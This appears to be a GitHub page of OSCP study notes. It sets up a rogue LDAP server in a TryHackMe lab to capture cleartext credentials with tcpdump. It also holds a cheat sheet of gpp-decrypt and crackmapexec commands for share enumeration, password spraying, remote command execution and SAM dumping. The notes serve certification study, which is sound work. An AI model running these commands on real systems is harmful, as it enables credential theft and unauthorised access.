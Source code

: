 Make sure to press <No> when requested if you want to skip server configuration
![image](https://github.com/nuricheun/OSCP/assets/14031269/19d32655-1321-4ca1-b9eb-f9cf9a49f585)

For the DNS domain name, you want to provide our target domain, which is za.tryhackme.com
![image](https://github.com/nuricheun/OSCP/assets/14031269/c3cdb6b1-1ceb-49dd-8e44-65e732d35b64)

Use this same name for the Organisation name as well: 
![image](https://github.com/nuricheun/OSCP/assets/14031269/ef463b93-a993-40b6-8dd2-516f87bd4cfa)

Provide any Administrator password:
![image](https://github.com/nuricheun/OSCP/assets/14031269/85d54c2f-01de-45e6-bf4b-141b241d20eb)

Select MDB as the LDAP database to use:
![image](https://github.com/nuricheun/OSCP/assets/14031269/4a456705-471b-4551-97fb-bd619dbc5f6a)

For the last two options, ensure the database is not removed when purged:
![image](https://github.com/nuricheun/OSCP/assets/14031269/99675705-69a0-4ee5-96ec-b783a8e44b1a)

Move old database files before a new one is created:
![image](https://github.com/nuricheun/OSCP/assets/14031269/6eb3503c-f51d-415a-9c3d-c57785c767d8)

Create olcSaslSecProps.ldif
```bash
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Now we can use the ldif file to patch our LDAP server using the following:
```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Capture traffic through tcpdump
```bash
sudo tcpdump -SX -i breachad tcp port 389
```


### gpp-decrypt(Groups.xml)
Group policy password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ                                            
```

### crackmapexec
```bash
# local auth
--local-auth

#smb
crackmapexec smb 192.168.x.x -u '' -p '' --pass-pol
crackmapexec smb 192.168.x.x -u '' -p '' --shares
crackmapexec smb 192.168.x.x -u 'guest' -p '' --shares

crackmapexec smb 192.168.x.x -u 'username' -p 'password' --shares
crackmapexec smb 192.168.x.x -u username.txt -p 'password' --continue-on-success
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

#ssh
crackmapexec ssh 192.168.x.x -u 'username' -p 'password' --continue-on-success
```